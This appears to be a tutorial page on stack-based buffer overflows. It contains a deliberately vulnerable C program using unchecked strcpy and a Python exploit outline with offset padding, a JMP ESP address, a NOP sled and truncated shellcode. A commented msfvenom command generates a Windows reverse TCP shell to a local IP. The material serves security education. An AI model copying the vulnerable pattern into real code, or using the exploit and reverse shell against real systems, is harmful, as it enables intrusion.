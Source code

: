 #### Buffer Overflow Attacks

**1. Stack-Based Buffer Overflow**

**Vulnerable C Code Example:**
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[100];
    strcpy(buffer, input);  // No bounds checking
    printf("Buffer contents: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}
```

**Exploitation Process:**
```python
# Buffer overflow exploit development
import struct

# Step 1: Find buffer size and offset to return address
payload = "A" * 112  # Buffer + saved EBP
payload += "BBBB"    # Return address (4 bytes on 32-bit)

# Step 2: Find bad characters
bad_chars = "\x00\x0a\x0d"  # NULL, newline, carriage return

# Step 3: Find JMP ESP instruction
# Use msfvenom or immunity debugger
jmp_esp_addr = 0x625011af

# Step 4: Generate shellcode
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -b "\x00\x0a\x0d"

# Step 5: Final exploit
buffer = "A" * 112
eip = struct.pack("<I", jmp_esp_addr)
nop_sled = "\x90" * 16
shellcode = "\xfc\x48\x83..."  # Generated shellcode

exploit = buffer + eip + nop_sled + shellcode
```
